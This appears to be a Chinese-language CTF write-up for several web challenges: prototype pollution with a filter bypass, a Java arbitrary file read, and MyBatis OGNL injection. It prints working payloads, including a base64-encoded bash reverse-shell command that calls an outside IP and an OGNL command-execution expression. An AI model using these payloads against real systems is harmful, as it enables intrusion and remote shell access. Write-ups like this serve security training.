 # web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```

---
vm沙箱不会绕


### auth_bypass
#java
给了源码,审计发现存在任意文件读取,前缀的download使用双斜杠绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211027.png)
读取配置文件web.xml
得到evil路径并读取evilServlet的class源码 `../WEB-INF/classes/com/example/demo/EvilServlet.class`
反编译打开,存在恶意命令执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211317.png)

Runtime.exec()单参数命令执行需要修改以下反弹shell的形式
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

需要urlencode以下字符串
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4yNTUuMTY2LjEyLzgyIDA+JjE=}|{base64,-d}|{bash,-i}
```

### mybaits
mybaits2.2存在ongl表达式注入漏洞

```ongl
${@java.lang.Runtime@getRuntime().exec("open /System/Applications/Calculator.app")}
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22